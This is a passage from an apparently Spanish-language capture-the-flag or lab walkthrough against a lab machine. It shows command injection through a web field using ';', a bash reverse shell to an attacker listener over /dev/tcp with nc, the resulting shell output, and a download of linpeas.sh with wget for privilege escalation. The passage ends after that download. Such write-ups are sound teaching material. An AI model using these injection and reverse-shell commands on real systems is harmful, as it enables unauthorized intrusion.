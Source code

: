 Probamos a concatenar comandos con un “;” y vemos que se pueden concatenar:

```bash
192.168.66.160 ; whoami
```

obteniendo:

![Untitled](Untitled%208.png)

Una vez aquí nos ponemos a la escucha en nuestro kali y ejecutamos el siguiente comando para obtener una reverse Shell

```bash
#kali
nc -nlvp 4444
#En la web
192.168.66.152 ; bash -i >& /dev/tcp/192.168.66.152/4444 0>&1
```

obteniendo la Shell:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444                     
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.160] 32779
bash: no job control in this shell
bash-3.00$ whoami
apache
```

### Escalada de privilegios

Transferimos [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases) de nuestro Kali a la maquina para ver por donde podemos escalar privilegios para ello iniciamos un servidor con Python en nuestro kali:

```bash
python3 -m http.server 80
```

y con wget desde la maquina descargamos Linpeas.

```bash
wget http://192.168.66.152/linpeas.sh
```
